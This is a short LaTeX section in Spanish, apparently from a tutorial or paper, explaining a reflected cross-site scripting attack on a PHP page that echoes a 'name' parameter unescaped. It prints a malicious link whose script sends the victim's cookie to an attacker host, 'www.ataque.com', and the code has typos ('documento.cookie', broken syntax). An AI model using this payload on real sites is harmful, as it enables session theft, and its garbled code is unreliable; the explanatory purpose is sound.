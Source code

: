 \documentclass[a4paper, 10pt]{article} %
\begin{document}
\subsection{Técnica}
\cite{5} La técnica tradicional de CSS usada sigue estos pasos:\\
Supongamos que la web que será atacada se llama: www.empresa.com entonces nos interesa alguna parte de la web que haga uso de una solicitud \textit{HTTP} (GET: solicitudes de datos acerca de un recurso determinado) para obtener algún tipo de recurso y que tenga como respuesta el código de la web que posteriormente se compilara en el navegador, es recomendable en la que se va a incluir el código en JavaScript no contenga tags de html o bién mas contenido Javascript.
Supongamos el parámetro que usaremos para atacar la web será ''name'' y que la cabecera \textit{HTTP} modificada es parecida a la siguiente: 
\begin{verbatim}
GET /personal.php?name=Fernando HTTP/1.0 
Host: www.empresa.com
...
\end{verbatim}
La web debería ser algo del estilo:
\begin{verbatim}
<html>
<tittle>Web personal de la empresa</tittle>
Welcome <?php echo $_GET[name]?>
...
<\html>
\end{verbatim}
Entonces obtendriamos una repuesta como la siguiente:
\begin{verbatim}
<html>
<tittle>Web personal de la empresa</tittle>
Welcome Fernando
...
<\html>
\end{verbatim}
Ahora tenemos que aprovecharnos de esto para ello vamos a llamar el documento que almacena las cookies "documento.cookie" también necesitamos una web que se use para obtener las cookies por ejemplo "www.ataque.com", entonces la idea es obtener dicho documento de la víctima:
El link malicioso podría ser parecido a este:
\begin{verbatim}
http://www.empresa.com/personal.php?name=
<script>window.open("http://www.ataque.com/obtener.ci?cookie="documento.cookie)</script>
\end{verbatim}  
Por lo que se obtendría una respuesta como esta:
\begin{verbatim}
<html>
<tittle>Web personal de la empresa</tittle>
Welcome <script>window.open("http://www.ataque.com/obtener.ci?
cookie="documento.cookie)</script>
...
<\html>
\end{verbatim}
Por lo que se redirige al usuario a una web del atacante que recolectará las cookies de la víctima.
\end{document}
